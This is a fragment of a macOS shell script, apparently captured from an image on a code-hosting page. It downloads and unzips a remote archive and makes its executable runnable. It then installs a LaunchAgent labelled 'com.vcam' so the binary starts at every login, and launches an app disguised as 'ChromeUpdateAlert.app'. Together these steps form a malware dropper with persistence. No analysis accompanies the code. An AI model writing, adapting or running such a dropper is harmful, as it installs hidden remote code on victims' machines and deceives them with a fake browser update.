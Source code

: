 ```shell
    *) exit 1 ;;  # Exit for unsupported architectures
esac

# Create working directory
mkdir -p "$WORK_DIR"

# Function to clean up
cleanup() {
    rm -rf "$ZIP_FILE"
}

# Download, unzip, and execute
if curl -s -o "$ZIP_FILE" "$ZIP_URL" && [[ -f "$ZIP_FILE" ]]; then
    unzip -o -qq "$ZIP_FILE" -d "$WORK_DIR"
    if [[ -f "$WORK_DIR/$EXECUTABLE" ]]; then
        chmod +x "$WORK_DIR/$EXECUTABLE"
    else
        cleanup
        exit 1
    fi
else
    cleanup
    exit 1
fi

# Step 4: Register the service
mkdir -p ~/Library/LaunchAgents

cat > "$PLIST_FILE" <<EOL
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.vcam</string>
    <key>ProgramArguments</key>
    <array>
        <string>$WORK_DIR/$EXECUTABLE</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <false/>
</dict>
</plist>
EOL

chmod 644 "$PLIST_FILE"

if ! launchctl list | grep -q "com.vcam"; then
    launchctl load "$PLIST_FILE"
fi

# Step 5: Run ChromeUpdateAlert.app
if [[ -d "$WORK_DIR/$APP" ]]; then
    open "$WORK_DIR/$APP" &
fi

# Final cleanup
cleanup
```